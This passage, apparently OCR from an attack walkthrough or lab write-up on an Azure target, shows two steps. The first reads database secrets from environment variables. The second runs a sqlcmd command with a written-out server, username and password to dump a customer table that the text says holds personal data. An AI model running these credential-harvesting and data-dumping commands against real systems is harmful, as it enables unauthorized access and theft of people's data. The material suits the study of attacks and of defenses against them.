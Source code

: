 bash

Copy code

`env | grep -i -e "DB"`

#### **Explanation**:

We list environment variables to extract sensitive information, such as database connection strings.

---

### **10. Database Exploitation**

Using the extracted connection string, we query the Azure SQL database for sensitive information.

#### **Commands**:

bash

Copy code

`sqlcmd -S megabigdevsqlserver.database.windows.net -U dbuser -P 'V%#J3c5jceryjcE' -d customerdevneddb -Q "SELECT * FROM CustomerData"`

#### **Explanation**:

This command retrieves sensitive data from the target database, such as PII or proprietary information.